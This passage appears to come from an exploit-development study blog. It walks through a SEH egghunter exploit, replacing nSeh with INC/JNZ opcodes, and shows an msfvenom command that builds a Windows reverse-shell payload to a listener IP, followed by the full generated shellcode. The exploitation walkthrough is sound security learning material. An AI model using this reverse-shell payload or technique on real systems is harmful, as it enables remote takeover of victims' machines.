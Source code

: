 When we run this code in GDB, PEDA gives us the following output:

![](/assets/images/CTP/zf2.JPG)

Ok so in this output, we see that the zero flag has become unset. So we know we can affect this flag with simple opcodes, like increment and decrement which are usually just one byte. This is great news. We could potentially get two stabs at either decrementing or incrementing in our byte space because we have 4 bytes to play with: 1 for the short jump, 1 for the jump length, 1 for a increment/decrement, and 1 for an increment/decrement. 

Let's try putting this into action with our egghunter exploit. We will change our `nSeh` variable from: `nSeh = '\xeb\x06\x90\x90'` to `nSeh = '\x40\x40\x75\x04'`. This can be broken down as follows:
+ `\x40` is to increment EAX
+ `\x75` is the conditional 'jump if not zero' opcode (`JNZ`)
+ `\x04` is our short-jump length of 4 bytes. 

Previously we were jumping 6 bytes as demonstrated in the following diagram:

![](/assets/images/CTP/masterDiagram.JPG)

However, this time there are not two `\x90` bytes to jump over so we only need to clear the other SEH component which is 4 bytes long. 

But wait! There's more! Are we sure our reverse shell `msfvenom` generated payload would withstand our bad character restriction? It actually would not, there is an `\xeb` in our payload. Let's rerun our payload generation and specify this bad character to form good habits. 
```terminal_session
astrid:~/ # msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.199 lport=443 EXITFUNC=thread -b "\x00\xeb" -f c                                                                                                  [21:41:14]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xda\xc8\xd9\x74\x24\xf4\xb8\x86\xa2\x3b\x8b\x5a\x29\xc9\xb1"
"\x52\x31\x42\x17\x83\xc2\x04\x03\xc4\xb1\xd9\x7e\x34\x5d\x9f"
"\x81\xc4\x9e\xc0\x08\x21\xaf\xc0\x6f\x22\x80\xf0\xe4\x66\x2d"
"\x7a\xa8\x92\xa6\x0e\x65\x95\x0f\xa4\x53\x98\x90\x95\xa0\xbb"
"\x12\xe4\xf4\x1b\x2a\x27\x09\x5a\x6b\x5a\xe0\x0e\x24\x10\x57"
"\xbe\x41\x6c\x64\x35\x19\x60\xec\xaa\xea\x83\xdd\x7d\x60\xda"
"\xfd\x7c\xa5\x56\xb4\x66\xaa\x53\x0e\x1d\x18\x2f\x91\xf7\x50"
"\xd0\x3e\x36\x5d\x23\x3e\x7f\x5a\xdc\x35\x89\x98\x61\x4e\x4e"
"\xe2\xbd\xdb\x54\x44\x35\x7b\xb0\x74\x9a\x1a\x33\x7a\x57\x68"
"\x1b\x9f\x66\xbd\x10\x9b\xe3\x40\xf6\x2d\xb7\x66\xd2\x76\x63"
"\x06\x43\xd3\xc2\x37\x93\xbc\xbb\x9d\xd8\x51\xaf\xaf\x83\x3d"
"\x1c\x82\x3b\xbe\x0a\x95\x48\x8c\x95\x0d\xc6\xbc\x5e\x88\x11"
"\xc2\x74\x6c\x8d\x3d\x77\x8d\x84\xf9\x23\xdd\xbe\x28\x4c\xb6"
"\x3e\xd4\x99\x19\x6e\x7a\x72\xda\xde\x3a\x22\xb2\x34\xb5\x1d"
"\xa2\x37\x1f\x36\x49\xc2\xc8\xf9\x26\xcd\xcf\x92\x34\xcd\xce"
"\xd9\xb0\x2b\xba\x0d\x95\xe4\x53\xb7\xbc\x7e\xc5\x38\x6b\xfb"
"\xc5\xb3\x98\xfc\x88\x33\xd4\xee\x7d\xb4\xa3\x4c\x2b\xcb\x19"
"\xf8\xb7\x5e\xc6\xf8\xbe\x42\x51\xaf\x97\xb5\xa8\x25\x0a\xef"
"\x02\x5b\xd7\x69\x6c\xdf\x0c\x4a\x73\xde\xc1\xf6\x57\xf0\x1f"
"\xf6\xd3\xa4\xcf\xa1\x8d\x12\xb6\x1b\x7c\xcc\x60\xf7\xd6\x98"
"\xf5\x3b\xe9\xde\xf9\x11\x9f\x3e\x4b\xcc\xe6\x41\x64\x98\xee"
"\x3a\x98\x38\x10\x91\x18\x58\xf3\x33\x55\xf1\xaa\xd6\xd4\x9c"
"\x4c\x0d\x1a\x99\xce\xa7\xe3\x5e\xce\xc2\xe6\x1b\x48\x3f\x9b"
"\x34\x3d\x3f\x08\x34\x14";
```
